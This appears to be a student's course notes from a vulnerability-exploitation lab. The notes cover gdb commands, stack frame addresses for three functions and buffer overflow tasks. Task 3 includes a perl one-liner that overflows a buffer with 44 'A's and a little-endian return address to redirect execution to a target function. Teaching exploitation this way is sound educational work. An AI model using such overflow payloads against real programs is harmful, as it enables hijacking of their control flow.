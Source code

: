 # Week 3


gdb commands:\
step\
run\
break\
x/8x $esp\
info registers\
disas main


### Task1
In this task, find the ESP, EBP and Return address in the stack frames of the following functions: main, func1, and func2 when the following code is compiled and executed.

<p align='center'>
<img src="https://github.com/LouisXVBTW/Vulnerability-Discovery-And-Exploitation/blob/main/images/week3task1a.png">
</p>

|Main Register|Main Address|
|:-----------:|-----------:|
|esp |0xffffd020|
|ebp|0xffffd038|
|main rtn|0x56556276|

|Fun1 Registers|Fun1 Address|
|:-----------:|-----------:|
|esp|0xffffd000|
|ebp|0xffffd018|
|fun1 rtn|0x5655622b|

|Fun2 Registers|Fun2 Address|
|:------:|-----:|
|esp|0xffffcfe0|
|ebp|0xffffcfe8|
|fun2 rtn|0x565561fc|

### Task2
In this task, discover buffer overflow vulnerability and exploit the program of the following code (i.e. print out the following message in the terminal “You have correctly ...Well done!”)

<p align='center'>
<img src="https://github.com/LouisXVBTW/Vulnerability-Discovery-And-Exploitation/blob/main/images/week3task2.png">
</p>

### Task 3
In this task, discover buffer overflow vulnerability and exploit the program of the following code (e.g. executing the for loop in the vde_msg() function)


task3:
perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"; print "\xc9\x61\x55\x56";' > /tmp/task3input

the ending is the return address being replaced with the address of the function we want to run

in this case the addr is 0x565561c9 but we need to reverse it and then overflow to it
idk why we need to reverse it but we do. 44 A's and the addr

<p align='center'>
<img src="https://github.com/LouisXVBTW/Vulnerability-Discovery-And-Exploitation/blob/main/images/week3task3a.png">
<img src="https://github.com/LouisXVBTW/Vulnerability-Discovery-And-Exploitation/blob/main/images/week3task3b.png">
</p>


### Additional Task
Download the serial.c file from moodle. Then compile it and run the program. Try various inputs and see if you can discover any vulnerability and exploit the program (i.e. print the “The serial number is valid” on the command line).